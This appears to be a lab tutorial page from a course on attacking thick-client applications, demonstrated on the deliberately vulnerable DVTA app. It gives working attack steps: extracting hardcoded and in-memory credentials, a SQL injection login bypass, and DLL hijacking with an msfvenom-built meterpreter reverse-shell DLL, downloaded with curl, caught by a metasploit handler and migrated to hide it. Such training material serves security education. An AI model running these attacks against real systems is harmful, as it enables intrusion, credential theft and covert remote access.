








# Attacking thick clients applications: Data storage issues

??? abstract "Open to see the general index of the course"
    - [Introduction](tca-introduction.md)
    - [Basic lab setup](tca-basic-lab-setup.md)
    - [First challenge: enabling a button](tca-first-challenge.md)
    - [Information gathering phase](tca-information-gathering-phase.md).
    - [Traffic analysis](tca-traffic-analysis.md).
    - [Attacking thick clients applications](tca-attacking-thick-clients-applications.md).
    - [Reversing and patching thick clients applications](tca-reversing-and-patching.md)


## 1. Hard Coded credentials

Developer often stores hardcode sensitive details in thick clients.

### strings

Strings comes in  [sysInternalsSuite](../sys-internals-suite.md). It's similar to the command "strings" in bash. It displays all the human readable strings in a binary:

```
strings.exe C:\Users\admin\Desktop\tools\original\DVTA.exe > C:\Users\admin\Desktop\strings.txt
```




### dnspy

We know the FTP conection is done in the Admin screen, so we open the application with dnspy and we locate the button in the Admin screen that calls the FTP conection. Credentials for the conection can be there:




## 2. Storing sensitive data in Registry entries 

### regshot


**1.**  Run  regshot version according to your thick-app (84 or 64 v).

**2.** Click on "First shot". It will make a "shot" of the existing registry entries.

**3.** Open the app you want to test and login into it.

**4.** Perform some kind of action, like for instance, viewing the profile.

**5.** Take a "Second shot" of the Registry entries.

**6.** After that, you will see the button "Compare" enabled. Click on it.




An HTM file will be generated and you will see the registry entries:



An interesting registry is "isLoggedIn", that has change from false to true. This may be a potential vector of attack (we could set it to true and also change username to admin). 

```
HKU\S-1-5-21-1067632574-3426529128-2637205584-1000\dvta\isLoggedIn: "false"  
HKU\S-1-5-21-1067632574-3426529128-2637205584-1000\dvta\isLoggedIn: "true"
```


## 3. Database conection strings in memory

When doing a conection to database, that string that does it may be: 
- in clear text 
- or enclypted.

If encrypted, it 's still possible to find it in memory. If we can dump the memory of the process we should be able to find the clear text conection string  in memory. 

#### Process Hacker tool

Download from: https://processhacker.sourceforge.io/downloads.php

We will be using the portable version.

**1.** Open the application you want to test.

**2.** Open Process Hacker Tool.

**3.** Select the application, click right on "Properties".

**4.** Select tab "Memory".

**5.** Click on "Strings".


**6.** Check "Image" and "Mapped" and search!


**7**. In the results you can use the Filter option to search for (in this case) "data source". 


Other possible searches: Decrypt.
Clear text conection string in memory reveals credentials: powned!!!

## 4. SQL injection

If input is not sanitize, when login into an app we could deceive the logic of the request to the database:

```SQL
select * from users username='x' and password='x';
```

In the DVTA app, we could try to do this:

```sql
select * from users username='x' or 'x'='x' and password='' or 'x'='x';
```


For that we only need to enter this into the login page:

```
x' or 'x'='x
```


And now we are ... raymond!!!




## 5. Side channel data leaks

Application logs are an example of side channel data leaks. Developers offen use logs for debugging purposes during development. 

**Where can you find those files?**

For example in Console logs. Open the command prompt and run the vulnerable thick application this way:

```
dvta.exe > C:/Users/admin/Desktop/dvta_logs.txt
```

After that open the DVTA application, login as admin and do some actions. When done, close the application. 

If you want to add some more logs with a different user, open again the app from console and append the new outcome to the file:

```
dvta.exe >> C:/Users/admin/Desktop/dvta_logs.txt
```

Now, login into the app as a regular user and browse around. 

Now open the file with the logs of the application and, if you are lucky and debug mode is still on, you will be able to see some stuff such as SQL queries, decrypted database passwords, users, temp location of the ftp file...




## 6. Unreliable data

Some applications may log some data (for instance timestamp)  for later use. If the user is able to tamper this data.


## 7. DLL Hijacking

### What is DLL Hijacking

A Dynamic Link Library (DLL) file usually holds executable code that can be used by other application, meaning that can act as a Library. This makes DLL files very attractive to attackers because if they manage to deceive the application into using a different DLL (with the same name) then this action may end up in compromising the active.

### How is DLL Hijacking perform?

When calling a DLL file, if an absolute path is not provided, then there are some techniques to deceive the app. 

#### Placing our DLL in the directory in which the app will look 

This is the expected DLL order:

* The directory from which the application is loaded.
* The current directory.
* The system directory 
```
(C:\\Windows\\System\\)
```
* The 16-bit system directory.
* The Windows directory.
* The directories that are listed in the PATH environment variable.

#### 1. Locate interesting DLL files with ProcessMonitor (or ProcMon)

We can try to find some DLL files that the app is requesting but not finding. And for that we can use ProcessMonitor and some filters like:

- Process Name is DVTA.exe
- Result is NAME NOT FOUND
- Path ends with dll.


If you login into the app, you will find some DLL files that can be used to try an exploitation:




#### 2. Crafting our malicious DLL and serving them to the machine
We will be assuming we will try to deceive the app with these 2 files:

* SECUR32.dll 
* DWrite.dll

We will open a kali machine, we will craft two dll payloads using msfvenom, we will copy them into our root apacher server and we will launch apache to serve those two files. Commands:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IPAttacker> LPORT=<4444> -a x86 -f dll > SECUR32.dll
# -p: for the chosen payload
# -a: architecture in the victim machine/application
# -f: format for the output file

# Copying payloads to apache root folder
sudo cp SECUR32.dll /var/www/html/
cp SECUR32.dll DWrite.dll
sudo cp DWrite.dll /var/www/html 

# starting apache
service apache2 start
```



Now, in the Windows 10 VM (maybe after disabling RealTime protection), we can retrieve those files with:

```cmd
curl http://10.0.2.15/SECUR32.dll --output C:\Users\admin\Desktop\SECUR32.dll
curl http://10.0.2.15/SECUR32.dll --output C:\Users\admin\Desktop\Dwrite.dll
```


#### 3. Launching the attack

Place the DLL crafted file into the same folder than the application. In my case I will place DWrite.dll into 

```
C:\Users\admin\Desktop\tools\original
```

In the Kali machine, start metasploit and set a handler:

```bash
msfconsole
```

```msf
use exploit/multi/handle
set payload windows/meterpreter/reverse_tcp
set LHOST 10.0.2.15
set LPORT 4444
run
```

Now you can start the application in the windows machine, and on the listener handler in kali, you will get a meterpreter. 

#### 4. Moving your meterpreter to a different process

List all processes in the meterpreter and migrate to a less suspicious one. This will also unblock the DVTA app in the windows machine:

```
ps
migrate <ID>
```

## How to connect to a database after getting the credentials


